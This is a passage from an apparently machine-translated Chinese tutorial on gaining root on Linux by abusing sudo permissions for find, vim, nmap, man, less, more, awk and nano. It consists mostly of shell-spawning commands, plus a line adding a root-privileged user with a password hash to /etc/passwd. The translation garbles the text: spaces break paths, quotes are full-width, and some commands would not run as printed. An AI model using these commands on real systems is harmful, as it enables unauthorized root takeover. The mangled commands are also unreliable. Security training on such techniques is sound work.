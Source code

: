 

此处sudo -l，显示用户已允许以root用户身份执行所有此二进制文件而无需密码。

让我们一一查看所有二进制文件（仅在索引中提到）和将**特权**提升给**root**用户。

## **使用查找命令**

sudo find / etc / passwd -exec / bin / sh \;

要么

sudo find / bin -name nano -exec / bin / sh \;

## **使用**Vim**命令**

sudo vim -c’！sh’

## **使用**Nmap**命令**

sudo nmap-交互式nmap>！shsh-4.1＃

**注意：\****nmap –interactive**选项在最新的**nmap***\*中不可用。**

没有互动的最新方式

echo“ os.execute（’/ bin / sh’）”> /tmp/shell.nse && sudo nmap —script = / tmp / shell.nse

## **使用**Man**命令**

sudo man man

之后按**！**按下并按Enter

## **使用less**/more**命令**

sudo less / etc / hosts

sudo more / etc / hosts

之后按**！**按下并按Enter

## **使用**awk**命令**

sudo awk’BEGIN {system（“ / bin / sh”）}’

## **使用**nano**命令**

nano是使用此编辑器的文本编辑器，在您需要切换用户之后，您可以修改passwd文件并将用户添加为root特权。在/ etc /passwd中添加此行，以将用户添加为root特权。

touhid：$ 6 $ bxwJfzor $ MUhUWO0MUgdkWfPPEydqgZpm.YtPMI / gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0：0：0：root：/ root：/ bin

sudo nano / etc / passwd

现在切换用户密码是：test
